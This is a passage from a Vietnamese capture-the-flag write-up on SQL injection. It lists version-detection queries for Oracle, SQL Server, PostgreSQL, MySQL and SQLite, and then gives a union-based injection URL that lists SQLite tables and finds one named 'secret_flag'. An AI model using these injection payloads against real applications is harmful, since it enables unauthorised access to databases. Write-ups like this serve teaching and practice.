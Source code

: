 ```sql
Oracle		SELECT banner FROM v$version
			SELECT version FROM v$instance
Microsoft	SELECT @@version
PostgreSQL	SELECT version()
MySQL		SELECT @@version
SQLite		select sqlite_version();
```

Và mình xác định được CSDL của chương trình này sử dụng là SQLite

![image-20230308145912947](./assets/image-20230308145912947.png)

Khai thác tên bảng hợp lệ và mình tìm được một bảng `secret_flag`

```
/item?id=1+union+select+1,2,tbl_name,4+FROM+sqlite_master+WHERE+type='table'+and+tbl_name+NOT+like+'sqlite_%'--+-
```
